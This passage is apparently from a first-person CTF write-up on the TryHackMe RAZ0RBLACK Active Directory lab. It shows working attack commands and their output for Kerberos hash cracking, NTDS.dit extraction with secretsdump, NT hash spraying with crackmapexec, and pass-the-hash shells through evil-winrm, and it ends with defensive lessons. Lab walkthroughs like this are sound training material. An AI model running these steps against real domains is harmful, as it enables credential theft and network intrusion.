OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 3 2300X Quad-Core Processor, 6898/13860 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$krb5tgs$23$*xyan1d3$RAZ0RBLACK.THM$raz0rblack.thm/xyan1d3*$fab27560a7c7992f945a2c240febb84d$1e2c0bbf2b18a4ef1b4377f089ae216859ea085a0a2f62bcaeedc383a91209523049062f2f25becf355e7373feab1ad29992e73f1937322475a7c3548abfdcd34aa8d9d5ef90a1dffcad179d4faed8db5e71bd431973b81aba4b9ded95e1fef5b341cb6b4c776d26fcd63fcef42af8c259b666b7f0fc6e19e0f05ed4a7bb087ae9dacec311487dcec21024194b759fab4da0615aab00666332858fab1bc95d6c0d8c5025089289050621510697f24e4de077f5fa55dffce932ec4ad6351c743ebe887ae442e22184d5031a3c404d074b3a50a989ee508503f491d69e350ab12476d89ba7f96703f4cac3faef4422fd627448754bee03e79a5138d942c1c473bef24d3786aa0b879a4b6f045c3c94f9c714cc6758397b177d3791db3cc2cd580053a14a311eac518f0e9a62b6c7f9db702766dec771f54642999210ccf9ba50bcf797d5ddbdb101194ddc0d443773e9370c74d60db66e4cef3efd024f0762cd16e613d4cc0d6bdd48b37336710f852b3aa5f1be6da764dc22db9fe1fe5286b8ca863f946d925b94e339811008507c51183a177020b24546eeb1a37a0fdb310dccf0bbfc926fc39d4157f6b31502e7444c497596090d34b80aa9743f7b9b139de17ae1377062abdd533133e41d7c61b581821fdc7968051e27c24b59b38121e6c4fabfeace351d27e861cf894ee30f9779db3103ca01bce6828cc3b55f00b6023b74ad36bf76e9baa8587677ec821159515041fa7e9a41c6d86e3009c2a5ffe2eaaf9dae1289361429bcbb18eee3036c407209f30c019f36d1774ea3e1e26a9c1282f1a9f98dbabfcc1394f3c3d4829a149bc06b550bd8464d1adeab20def7e9ed0093a6b2c1f1d3b3d12ac36d27a19a7a82e7244b05c9e42b5ee7dfff0fcf1e14cadf3bec634c39eebac4dc8e79980e9b203173fadd6cc3f1adeed6b6f4eb55abbb22fce666e254ac2ef3969b9d20743482fef9791f994f1488d191cb24b61e401046e7cc37cc56eb2a1ffc3dd845e7f665d96f69662e8a1c87f62cc57a7ca368cf703879a6ae9cac1050b4f99d9f3af7edb413d4e4452ab26941c8e86fea13f8659d571655384a5671d8316338636c61f8fdd24df03ed87b21d7476f59c14d8ebc0178770751a8e6a23faec4a7454a74c7a43d64c1b075c1091ceef4718ae3966338571babd9ae2795c75fecd8f6ebd3a7d90487bd7db899e07dbf7c7528c4d759eac8f521d661061f1d6444b7503596c22076fce4dff1f4f804bb393576002c21ca85c0d84824b783b4bcd4545cf4ed166d9e22094c21a1c227bd81d42256d9fe95b2154ce2b9a52d4c1267e775067ae639bacb4698d63ee030d3a9fc032730e97203322a4db0839e837b70abb0c20e7a40231f670b19ecd1bd8992bc4e034f89c9ce0c52b5f9d03e3cafde12e93fae:cyanide9amine5628
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*xyan1d3$RAZ0RBLACK.THM$raz0rblack.thm/...e93fae
Time.Started.....: Fri Apr  5 20:39:13 2024, (6 secs)
Time.Estimated...: Fri Apr  5 20:39:19 2024, (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1646.6 kH/s (1.45ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8869622/14344384 (61.83%)
Rejected.........: 1782/8869622 (0.02%)
Restore.Point....: 8865525/14344384 (61.80%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: cygprendal -> cwat32
Hardware.Mon.#1..: Temp: 45c Util: 83%

Started: Fri Apr  5 20:39:12 2024
Stopped: Fri Apr  5 20:39:20 2024
```


Same habit as before: a fresh credential is worth checking broadly before committing to a single next step, so I ran `crackmapexec` with the new `xyan1d3` credentials across the subnet and got a positive hit.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 20:39]
└─[$]> crackmapexec -t 200 smb 10.10.240.0/24 -u xyan1d3 -p 'cyanide9amine5628' --shares
SMB         10.10.240.65    445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
SMB         10.10.240.65    445    HAVEN-DC         [+] raz0rblack.thm\xyan1d3:cyanide9amine5628 
SMB         10.10.240.65    445    HAVEN-DC         [*] Enumerated shares
SMB         10.10.240.65    445    HAVEN-DC         Share           Permissions     Remark
SMB         10.10.240.65    445    HAVEN-DC         -----           -----------     ------
SMB         10.10.240.65    445    HAVEN-DC         ADMIN$          READ            Remote Admin
SMB         10.10.240.65    445    HAVEN-DC         C$              READ,WRITE      Default share
SMB         10.10.240.65    445    HAVEN-DC         IPC$            READ            Remote IPC
SMB         10.10.240.65    445    HAVEN-DC         NETLOGON        READ            Logon server share 
SMB         10.10.240.65    445    HAVEN-DC         SYSVOL          READ            Logon server share 
SMB         10.10.240.65    445    HAVEN-DC         trash                           Files Pending for deletion
```

With WinRM confirmed reachable and the credentials validated, `evil-winrm` gave me an actual interactive shell as `xyan1d3` instead of just a set of hashes and passwords sitting in a terminal.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 20:40]
└─[$]> evil-winrm --user xyan1d3 -p 'cyanide9amine5628' -i raz0rblack.thm         
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\xyan1d3\Documents> 
```

The first thing I do in any new home directory is look for anything that does not belong there, and `xyan1d3.xml` stood out immediately since PowerShell profiles do not normally live next to user documents. It was not a flag file directly, but reading it turned up something arguably more useful.

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">Nope your flag is not here</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000006bc3424112257a48aa7937963e14ed790000000002000000000003660000c000000010000000f098beb903e1a489eed98b779f3c70b80000000004800000a000000010000000e59705c44a560ce4c53e837d111bb39970000000feda9c94c6cd1687ffded5f438c59b080362e7e2fe0d9be8d2ab96ec7895303d167d5b38ce255ac6c01d7ac510ef662e48c53d3c89645053599c00d9e8a15598e8109d23a91a8663f886de1ba405806944f3f7e7df84091af0c73a4effac97ad05a3d6822cdeb06d4f415ba19587574f1400000051021e80fd5264d9730df52d2567cd7285726da2</SS>
    </Props>
  </Obj>
</Objs>
```


That XML had the structure of an exported PowerShell `PSCredential` object, which meant the value inside it was almost certainly an encrypted password rather than a flag, and not something I could just read in plaintext without the right decryption call. Rather than chase that thread immediately, I went back to `BloodHound-python`, this time authenticated as `xyan1d3`, since a more privileged account almost always reveals edges in the graph that were invisible from `twilliams`'s more limited view.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK/bloodhound2] - [Fri Apr 05, 20:46]
└─[$]> bloodhound-python -d raz0rblack.thm -u 'xyan1d3' -p 'cyanide9amine5628' -ns 10.10.240.65 -c all   
INFO: Found AD domain: raz0rblack.thm
INFO: Getting TGT for user
INFO: Connecting to LDAP server: haven-dc.raz0rblack.thm
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: haven-dc.raz0rblack.thm
INFO: Found 8 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: HAVEN-DC.raz0rblack.thm
INFO: Done in 00M 27S
```

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK/bloodhound2] - [Fri Apr 05, 21:27]
└─[$]> smbmap  -u 'xyan1d3' -p 'cyanide9amine5628' -d raz0rblack.thm -H raz0rblack.thm  

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
 SMBMap - Samba Share Enumerator v1.10.2 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authentidated session(s)                                                      
                                                                                                                                            
[+] IP: 10.10.88.229:445	Name: raz0rblack.thm      	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	READ ONLY	Remote Admin
	C$                                                	READ ONLY	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
	trash                                             	NO ACCESS	Files Pending for deletion
```


With `xyan1d3`'s credentials in hand I went back over the share list with `smbmap` instead of `crackmapexec`, since it lays out read/write permissions per share more clearly, and this account turned out to have visibility into most of what the domain controller was hosting. `ADMIN$` stood out specifically because it maps to `C:\Windows`, which meant read access there was effectively read access to the whole system drive rather than just a designated file share.

```bash
smb: \trash\> ls
  .                                   D        0  Tue Mar 16 02:01:28 2021
  ..                                  D        0  Tue Mar 16 02:01:28 2021
  chat_log_20210222143423.txt         A     1340  Thu Feb 25 14:29:05 2021
  experiment_gone_wrong.zip           A 18927164  Tue Mar 16 02:02:20 2021
  sbradley.txt                        A       37  Sat Feb 27 14:24:21 2021

		5101823 blocks of size 4096. 978024 blocks available
smb: \trash\> 
```

That `smbmap` listing had explicitly flagged the `trash` share as no access, but share permissions and filesystem permissions are two separate checks, and once I was browsing through `ADMIN$` I found I could walk straight into that same directory from the filesystem side without ever touching the share permission that had blocked me. Sitting inside it was a zip archive alongside what looked like exported chat logs.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 21:51]
└─[$]> unzip experiment_gone_wrong.zip 
Archive:  experiment_gone_wrong.zip
[experiment_gone_wrong.zip] system.hive password: 
```

Trying to open the archive directly came back asking for a password, which meant cracking it offline was the only realistic path forward. `zip2john` converts a password-protected zip's header into a hash format `john` can actually work with, so I ran the archive through it before feeding the result to a cracker.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 21:52]
└─[$]> zip2john experiment_gone_wrong.zip > ziphash 
ver 2.0 efh 5455 efh 7875 experiment_gone_wrong.zip/system.hive PKZIP Encr: TS_chk, cmplen=2941739, decmplen=16281600, crc=BDCCA7E2 ts=591C cs=591c type=8
ver 2.0 efh 5455 efh 7875 experiment_gone_wrong.zip/ntds.dit PKZIP Encr: TS_chk, cmplen=15985077, decmplen=58720256, crc=68037E87 ts=5873 cs=5873 type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```

With that hash extracted, I ran it straight through `john` against rockyou to recover the archive's password.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 21:52]
└─[$]> john --wordlist=/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt ./ziphash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
electromagnetismo (experiment_gone_wrong.zip)     
1g 0:00:00:00 DONE (2024-04-05 21:53) 1.204g/s 10096Kp/s 10096Kc/s 10096KC/s elfo1992..elboty1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Once cracked open, the archive held exactly two files: a `SYSTEM` registry hive, and `ntds.dit`, which is the actual Extensible Storage Engine database that Active Directory uses to store every object in the domain, users, computers, and every credential hash among them. On its own `ntds.dit` is encrypted with a boot key that lives inside the `SYSTEM` hive, which is exactly why the two files always travel together in a real dump, so having both meant I already had everything needed to decrypt it later. Before going further down that road, though, I wanted to see what the chat logs sitting alongside the archive actually said.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 21:54]
└─[$]> cat chat_log_20210222143423.txt 
sbradley> Hey Administrator our machine has the newly disclosed vulnerability for Windows Server 2019.
Administrator> What vulnerability??
sbradley> That new CVE-2020-1472 which is called ZeroLogon has released a new PoC.
Administrator> I have given you the last warning. If you exploit this on this Domain Controller as you did previously on our old Ubuntu server with dirtycow, I swear I will kill your WinRM-Access.
sbradley> Hey you won't believe what I am seeing.
Administrator> Now, don't say that you ran the exploit.
sbradley> Yeah, The exploit works great it needs nothing like credentials. Just give it IP and domain name and it resets the Administrator pass to an empty hash.
sbradley> I also used some tools to extract ntds. dit and SYSTEM.hive and transferred it into my box. I love running secretsdump.py on those files and dumped the hash.
Administrator> I am feeling like a new cron has been issued in my body named heart attack which will be executed within the next minute.
Administrator> But, Before I die I will kill your WinRM access..........
sbradley> I have made an encrypted zip containing the ntds.dit and the SYSTEM.hive and uploaded the zip inside the trash share.
sbradley> Hey Administrator are you there ...
sbradley> Administrator .....

The administrator died after this incident.

Press F to pay respects
```

The chat logs turned out to be a conversation between `Administrator` and another staff member discussing a vulnerability affecting the AD network, [CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472), better known as Zerologon. My first instinct was to go test the Zerologon PoC directly against the domain controller, since a working Netlogon exploit is a fast path straight to Domain Admin on a vulnerable DC.

Before burning time on that, though, rereading the same chat thread reminded me of something more directly useful sitting right in front of me: the conversation was actually about the `SYSTEM` hive and `ntds.dit` I had already cracked out of the zip, not a live exploit I still needed to set up. Rather than chase Zerologon against a live service, I already held an offline copy of the entire credential database, so `secretsdump.py` from `impacket` in local mode could parse it directly and hand me every hash in the domain without touching the network at all.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 22:37]
└─[$]> python3 ~/ADTools/impacket/examples/secretsdump.py -ntds ntds.dit -system system.hive LOCAL                                  
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x17a0a12951d502bb3c14cf1d495a71ad
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 84bf0a79cd645db4f94b24c35cfdf7c7
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1afedc472d0fdfe07cd075d36804efd0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HAVEN-DC$:1000:aad3b435b51404eeaad3b435b51404ee:4ea59b8f64c94ec66ddcfc4e6e5899f9:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:703a365974d7c3eeb80e11dd27fb0cb3:::
................................. etc
```

The `krbtgt` hash is always worth an offline attempt on its own, since it almost never gets rotated and a weak underlying password would be a fast route to forging tickets later, so I sent it at `hashcat` against rockyou first.

```bash
└─[$]> hashcat -m 1000 -a 0 hash3 /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -O --force
hashcat (v6.2.5) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 3 2300X Quad-Core Processor, 6898/13860 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 27

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Meet-In-The-Middle
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

Approaching final keyspace - workload adjusted.           

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 703a365974d7c3eeb80e11dd27fb0cb3
Time.Started.....: Fri Apr  5 22:46:13 2024, (4 secs)
Time.Estimated...: Fri Apr  5 22:46:17 2024, (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4301.8 kH/s (0.56ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests
Progress.........: 14344384/14344384 (100.00%)
Rejected.........: 6538/14344384 (0.05%)
Restore.Point....: 14344384/14344384 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[2131343375313433] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Temp: 43c Util: 65%

Started: Fri Apr  5 22:46:13 2024
Stopped: Fri Apr  5 22:46:18 2024

```

Hashcat coming back exhausted with nothing found is not always the final word, since wordlist normalisation and hash-mode handling differ slightly between crackers, so I ran the same hash past `john` as a second opinion before ruling the password out entirely.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 22:48]
└─[$]> john --wordlist=/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt ./hash3  
Warning: detected hash type "LM", but the string is also recognized as "NT"
Use the "--format=NT" option to force loading these as that type instead
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 1 password hash (LM [DES 256/256 AVX2])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (krbtgt)     
1g 0:00:00:00 DONE (2024-04-05 22:48) 100.0g/s 2457Kp/s 2457Kc/s 2457KC/s 123456..010692
Use the "--show --format=LM" options to display all of the cracked passwords reliably
Session completed. 
```

`krbtgt` alone was not giving anything up, but cracking hashes one at a time is not the only option once you have an entire dump: instead of isolating a single account, I put every NT hash `secretsdump` had extracted into one file and ran that whole batch against rockyou together, on the chance that a weak, reused password somewhere in the domain would surface where a single targeted attempt had not.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 23:14]
└─[$]> hashcat -m 1000 -a 0 group_hashes /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -O --force --potfile-disable
hashcat (v6.2.5) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 3 2300X Quad-Core Processor, 6898/13860 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 27

Hashes: 4 digests; 4 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Meet-In-The-Middle
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

31d6cfe0d16ae931b73c59d7e0c089c0:                         
1afedc472d0fdfe07cd075d36804efd0:PassW0rd                 
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 1000 (NTLM)
Hash.Target......: group_hashes
Time.Started.....: Fri Apr  5 23:14:49 2024, (5 secs)
Time.Estimated...: Fri Apr  5 23:14:54 2024, (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3189.4 kH/s (0.71ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 2/4 (50.00%) Digests
Progress.........: 14344384/14344384 (100.00%)
Rejected.........: 6538/14344384 (0.05%)
Restore.Point....: 14344384/14344384 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[2131343375313433] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Temp: 55c Util: 75%
```

That batch run actually paid off, cracking the `Administrator` NT hash to a real plaintext password. It was a genuinely satisfying moment right up until I tried using it: neither a direct login nor a straightforward pass-the-hash attempt with that account did anything useful against the services I had access to, which told me `Administrator`'s remote authentication was restricted in some way I had not yet worked around, not that the credential itself was wrong. Rather than fight that account further right away, I went back to `BloodHound` to look for another way toward the same goal, and it flagged a second interesting target account as Kerberoastable.


`Rubeus` is my usual go-to for requesting service tickets directly from a Windows session rather than routing everything back through my own attacking box, so I uploaded it to the `xyan1d3` shell and tried running it. Windows Defender had other plans.

```bash
*Evil-WinRM* PS C:\Users\xyan1d3\Documents> .\Rubeus.exe
Program 'Rubeus.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\Rubeus.exe
+ ~~~~~~~~~~~~.
At line:1 char:1
+ .\Rubeus.exe
```


Rather than fight Defender for a tool substitution I did not strictly need, I went back to something I already had sitting on disk: the full `secretsdump` output held dozens of NT hashes across every account in the domain, and I had not yet tried any of them for authentication individually. I pulled just the hash column out into its own file and handed the whole list to `crackmapexec` to spray across the domain controller in one pass.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Sat Apr 06, 00:32]
└─[$]> cat SECRETS_DUMP_LIST| cut -d ':' -f 4 > hashes.lst
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Sat Apr 06, 00:32]
└─[$]> cat hashes.lst 
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation


nthash)
[*] Searching for pekList, be patient

[*] Reading and decrypting hashes from ntds.dit 
1afedc472d0fdfe07cd075d36804efd0
31d6cfe0d16ae931b73c59d7e0c089c0
4ea59b8f64c94ec66ddcfc4e6e5899f9
703a365974d7c3eeb80e11dd27fb0cb3
da3542420eff7cfab8305a68b7da7043
..... etc
```

While that spray ran in the background, I circled back to the `xyan1d3.xml` credential file I had found earlier and finally ran the `Import-Clixml` decryption I had been putting off, which handed over the second flag.

```bash
*Evil-WinRM* PS C:\Users\xyan1d3> cat xyan1d3.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">Nope your flag is not here</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000006bc3424112257a48aa7937963e14ed790000000002000000000003660000c000000010000000f098beb903e1a489eed98b779f3c70b80000000004800000a000000010000000e59705c44a560ce4c53e837d111bb39970000000feda9c94c6cd1687ffded5f438c59b080362e7e2fe0d9be8d2ab96ec7895303d167d5b38ce255ac6c01d7ac510ef662e48c53d3c89645053599c00d9e8a15598e8109d23a91a8663f886de1ba405806944f3f7e7df84091af0c73a4effac97ad05a3d6822cdeb06d4f415ba19587574f1400000051021e80fd5264d9730df52d2567cd7285726da2</SS>
    </Props>
  </Obj>
</Objs>
*Evil-WinRM* PS C:\Users\xyan1d3> $Credential = Import-Clixml -Path ./xyan1d3.xml
#^?*Evil-WinRM* PS C:\Users\xyan1d3> $Credential.GetNetworkCredential().password
LOL here it is -> THM{62ca7e0b901aa8f0b233cade0839b5bb}
*Evil-WinRM* PS C:\Users\xyan1d3> 
```

The hash spray had been running the whole time, and by the time I got back to it, one of the several dozen hashes from the domain dump had come back as a valid, working credential.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Sat Apr 06, 00:43]
└─[$]> crackmapexec -t 700 smb 10.10.23.239 -u lvetrova -H hashes.lst 
SMB         10.10.23.239    445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
SMB         10.10.23.239    445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:1afedc472d0fdfe07cd075d36804efd0 STATUS_LOGON_FAILURE 
SMB         10.10.23.239    445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE 
SMB         10.10.23.239    445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:4ea59b8f64c94ec66ddcfc4e6e5899f9 STATUS_LOGON_FAILURE 
............... etc
SMB         10.10.23.239    445    HAVEN-DC         [+] raz0rblack.thm\lvetrova:f220d3988deb3f516c73f40ee16c431d 
```

With `lvetrova`'s NT hash confirmed valid, `evil-winrm` accepted it directly for a pass-the-hash login, no plaintext password ever needed.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Sat Apr 06, 00:46]
└─[$]> evil-winrm --user lvetrova -H f220d3988deb3f516c73f40ee16c431d -i raz0rblack.thm 
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\lvetrova\Documents> 
```

```bash
*Evil-WinRM* PS C:\Users\lvetrova> $Credential = Import-Clixml -Path ./lvetrova.xml
*Evil-WinRM* PS C:\Users\lvetrova> $Credential.GetNetworkCredential().password
THM{694362e877adef0d85a92e6d17551fe4}
*Evil-WinRM* PS C:\Users\lvetrova> 
```

Looking back at the whole run, what makes RAZ0RBLACK stand out to me is not any single step, it is how many completely ordinary AD misconfigurations had to line up for the chain to work at all: a forgotten NFS export, two accounts with weak or reused passwords, a live domain backup left sitting on a share nobody remembered to lock down, and finally a working credential that only turned up because I was willing to spray dozens of hashes at once instead of stopping after the first one failed. None of those individually would have gotten me to Administrator, but together they made the domain fully transparent.

---

## Lessons and Takeaways

- **Do not expose NFS on a Windows AD network without tightly scoping the export.** It sits outside normal SMB/AD permission auditing entirely, and here it leaked an employee roster that fed every later step.
- **Disable `UF_DONT_REQUIRE_PREAUTH` and enforce Kerberoasting-resistant service account passwords.** Both `twilliams` and `xyan1d3` fell to offline cracking because their Kerberos-derived hashes were weak enough for rockyou to catch.
- **Never leave a raw `NTDS.dit` and `SYSTEM` hive dump sitting on any file share, encrypted or not.** A password-protected zip is not a security boundary once `zip2john` and a wordlist are on the table; the only safe number of exposed domain credential databases is zero.
- **Audit password reuse across your own domain.** The path from a full hash dump to an actual foothold here was a hash-spray, not a targeted attack, which only works because more than one account in the domain shared a crackable or weak password.
- **PowerShell `PSCredential` exports (`Export-Clixml`) are not a safe place to stash secrets in a user's home directory.** Anyone who can read the file and run PowerShell as that same context can call `Import-Clixml` and recover the plaintext in two lines.
